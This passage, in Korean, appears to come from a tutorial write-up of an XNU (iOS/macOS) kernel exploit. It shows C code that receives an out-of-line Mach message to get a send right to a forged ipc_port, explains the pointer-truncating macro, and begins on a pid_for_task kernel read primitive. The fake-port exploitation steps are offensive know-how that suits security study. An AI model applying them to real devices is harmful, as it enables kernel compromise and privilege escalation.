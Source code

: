 따라서 OOL 메시지를 수신하여 이 핸들을 다시 획득해야 한다.

기억하겠지만, 이전에 remote port를 기록해 두었는데, 
이를 통해 우리가 보냈던 OOL 메시지를 수신하고 조작된 포트 핸들을 다시 읽어올 수 있다.

```c
// receive the message from fill_kalloc_with_port_pointers back, since that message contains a send right and we overwrote the pointer of the first port, we now get a send right to the fake port!
    struct ool_msg *msg = malloc(0x1000);
    ret = mach_msg(&msg->hdr, MACH_RCV_MSG, 0, 0x1000, p, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (ret) {
        free(msg);
        printf("[-] mach_msg() failed: %d (%s)\n", ret, mach_error_string(ret));
        goto err;
    }
    
    mach_port_t *received_ports = msg->ool_ports.address;
    mach_port_t our_port = received_ports[0]; // fake port!
    free(msg);
```

이제 더 이상 이전의 target port 핸들이 아닌, fakeport에 대응하는 포트 핸들을 획득하게 된다.

이는 커널이 OOL 메시지를 사용자 공간으로 복사할 때 CAST_MACH_PORT_TO_NAME 매크로 함수를 실행하여 변환을 수행하기 때문이다.

```c
// osfmk/mach/port.h:155
#define CAST_MACH_PORT_TO_NAME(x) ((mach_port_name_t)(uintptr_t)(x))
```

해당 매크로는 `ipc_port`의 헤더인 `ipc_object`의 상위 8바이트를 잘라내며, 
이는 `ipc_object` 구조체의 앞 2개 멤버에 해당된다.

```c
struct ipc_port {
    struct ipc_object ip_object;
    struct ipc_mqueue ip_messages; 
    // ...
};

struct ipc_object {
    ipc_object_bits_t io_bits; // 4B
    ipc_object_refs_t io_references; // 4B
    lck_spin_t	io_lock_data;
};
```

따라서 최종적으로 포트 핸들은 실제로 `ipc_port` 구조체 내의 `io_bits`와 `io_references` 값으로 구성된다.

이제 `ipc_port`에 대한 완전한 제어 권한과 그 핸들까지 모두 확보하였다.

하지만 이 `ipc_port`는 `vm_map`을 가지고 있지 않기 때문에 아직까지는 정상적인 task 포트는 아니다..

### pid_for_task 을 이용한 커널 읽기 프리미티브

`pid_for_task` 함수는 하나의 프로세스 포트를 인자로 받아 해당 프로세스의 PID를 조회하여 반환한다. 
